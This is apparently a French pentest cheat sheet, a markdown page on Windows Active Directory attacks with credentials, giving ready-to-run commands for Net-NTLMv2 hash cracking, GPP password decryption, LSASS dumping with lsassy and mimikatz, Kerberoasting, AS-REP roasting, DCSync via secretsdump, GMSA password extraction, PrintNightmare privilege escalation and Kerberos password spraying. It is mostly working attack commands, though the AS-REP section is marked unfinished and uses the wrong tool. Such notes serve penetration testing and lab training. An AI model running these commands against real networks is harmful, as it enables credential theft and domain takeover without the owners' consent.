 # Attaques Windows avec identifiants

## 1. Obtention d'identifiants / hash NTLM

### 1.1. Cracking

> Prérequis : Hash Net-NTLMv2 obtenu au préalable
>
> Objectif : Obtenir le mot de passe de l'utilisateur

```bash
$ john --format=netntlmv2 --wordlist="/usr/share/wordlists/rockyou.txt" hash.txt

$ hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```



### 1.2. MS14-025 (GPO)

> **SYSVOL** est un partage réseau regroupant entre autre les éléments qui doivent être accessibles pour l’ensemble des ordinateurs du domaine (e.g. scripts de connexion, GPO, …). Il se situe sur les controleurs de domaine.
>
> Prérequis : Accès à un partage SYSVOL sur la machine <IP> (compte du domaine)
>
> Objectif : Obtenir le mot de passe de l'utilisateur utilisé pour appliquer la GPO (généralement l'administrateur local)

```bash
# Connexion au préalable sur le partage SMB SYSVOL
$ cd \DOMAIN\Policies\{UNE-CLE-GPO}\Machine\Preferences\Groups\
$ cat Groups.xml
$ gpp-decrypt <HASHED_PASSWORD>

# Ou plus facile, utilisation du module gpp_password CME
$ crackmapexec smb <IP> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password
```



### 1.3 Dump LSASS

> Récupération des hash NTLM des comptes s'étant connectés sur la machine
>
> Prérequis : compte administrateur local d'une machine cliente
>
> Objectifs : récupérer un hash NTLM d'un compte du domaine

```bash
# A distance
$ crackmapexec smb <IP_PARTAGE> -u USERNAME -p PASSWORD -M lsassy 

# Si déjà connecté sur le poste client
C:\> .\mimikatz.exe 
```



## 2. Exploitation avec identifiants / hash NTLM

### 2.1 Exploitation des partages réseau

#### 2.1.1 Listing des partages réseaux SMB

> Prérequis : Identifiants d'un utilisateur / hash NTLM si le partage est sur le DC
>
> Objectifs : lister les partages réseaux SMB présents sur une machine <IP>

```bash
# Sur une machine cliente
$ crackmapexec smb <IP_CLIENT> -u "USERNAME" -p 'PASSWORD' --shares --local-auth

# Sur un contrôleur de domaine
$ crackmapexec smb <IP_DC> -u "USERNAME" -H <HASH_NTLM> --shares
```

- Si utilisation d'un compte local, spécifier l'option --local-auth ;

- CME vient confirmer les identifiants utilisés et indique la mention "Pwn3d!" si c'est un compte ayant les droits d'un **administrateur local**. Si c'est un compte du domaine, il l'indique en vert.

  

#### 2.1.2 Accès aux partages réseaux SMB

> Prérequis : Identifiants d'un utilisateur / hash NTLM si le partage est sur le DC
>
> Objectifs : accéder et lire les fichiers présents sur les partages réseau SMB

```bash
# Sur une machine client
$ impacket-smbclient 'USERNAME:PASSWORD@<IP_CLIENT>'

# Sur un contrôleur de domaine
$ impacket-smbclient -hashes :<HASH_NTLM> DOMAIN/USERNAME@<IP_DC>     
```

Voir [smbclient](./smbclient.md) pour consulter les actions réalisables



### 2.2 Attaques liées au compte de service

#### 2.2.1 Kerberoasting

> Prérequis : Compte utilisateur avec le droit d'utiliser le service
>
> Objectif : Récupérer un TGS (ticket signé avec le mot de passe du compte de service) pour le cracker et obtenir le mot de passe du compte de service

```bash
$ impacket-GetUserSPNs -request -dc-ip <IP_DC> 'DOMAIN/USERNAME:PASSWORD'
```

Si l'erreur `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` survient, se mettre à l'heure en synchronisation avec le DC :

```bash
$ sudo ntpdate <IP_DC>
```



#### 2.2.2 ASREP Roasting (WIP)

> Se base sur la possibilité de demander un ticket de service en tant qu'un utilisateur du domaine sans connaître son mot de passe.
>
> Prérequis : Connaissance du compte de service dont on veut un ticket / paramétrage de l'utilisateur de domaine "pas de pré-authentification Kerberos"
>
> Objectif : Récupérer un TGT pour le cracker et obtenir le mot de passe du compte de service

```bash
$ impacket-GetUserSPNs 'DOMAIN/USERNAME' -no-pass
```



#### 2.2.3 DCSync

> Se base sur le fait qu'un compte de service ait les droits de répliquer les modifications d'un annuaire (i.e. synchronisation de tout l'annuaire)
>
> Prérequis : Compte de service avec les droits DCSync
>
> Objectif (court) : Devenir administrateur du domaine (Administrateur ou KRBTGT)
>
> Objectif (long) : Répliquer l'annuaire pour ensuite lire les modifications du fichier NTDS.dit et donc récupérer tous les hash des utilisateurs du domaine, dont l'administrateur du domaine

```bash
$ impacket-secretsdump 'DOMAINE/USERNAME:PASSWORD@<IP_DC>' -just-dc-user krbtgt
```



#### 2.2.4 Exploitation des comptes GMSA

> Dans le cas où on possède les droits de lire les mots de passe d'un compte GMSA (Group Managed Service Accounts)
>
> Prérequis : un compte avec les droits de lecture GMSA
>
> Objectifs : récupérer le hash NTLM du compte GMSA

```powershell
# Besoin d'un powershell
# Liste des comptes GMSA
PS C:\> Get-ADServiceAccount -Filter *
# Récupérer le SamAccountName
PS C:\> $gmsa =  Get-ADServiceAccount -Identity '<SamAccountName>' -Properties 'msDS-ManagedPassword'
PS C:\> $blob = $gmsa.'msDS-ManagedPassword'
# Récupération du mot de passe chiffré (secure)
PS C:\> $mp = ConvertFrom-ADManagedPasswordBlob $blob
# Conversion du mot de passe en hash NTLM
PS C:\> $hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
```



### 2.3 Autre

#### 2.3.3 Print-Nightmare

> Se base sur le fait qu'un utilisateur à moindre privilèges peut ajouter une imprimante et demander d'installer un driver pour cette dernière. C'est le service de spool qui va télécharger et charger ce driver. Ce service est lancé par SYSTEM. Il chargera donc le driver (une dll malicieuse pour RCE) avec ces droits, permettant une élévation de privilèges.
>
> Prérequis : un compte utilisateur sur une machine avec un service de spool (spoolsv) actif
>
> Objectif : Devenir administrateur local (SYSTEM)
>
> Ressource : https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html / https://www.thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/

```powershell
&> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
&> import-module .\CVE-2021-1675.ps1
&> Invoke-Nightmare -NewUser "slash" -NewPassword "slash" # création d'un nouvel utilisateur
# Hôte - connexion avec le nouveau compte ayant les droits SYSTEM
$ evil-winrm -i 10.10.11.106 -u slash -p slash
```



#### 2.3.4 Password spraying

> Réutilisation de mots de passe valides
>
> Prérequis : un mot de passe valide avec une liste d'utilisateurs valides et susceptibles d'utiliser également ce mot de passe
>
> Objectif : obtenir un nouveau compte 

```bash
# Password spraying via le protocole Kerberos (pré-authentification)
$ kerbrute bruteuser --dc <NOM_DC> -d <DOMAIN.COM> <USERS_VALIDES_WORDLIST> <MDP_VALIDE>  
```

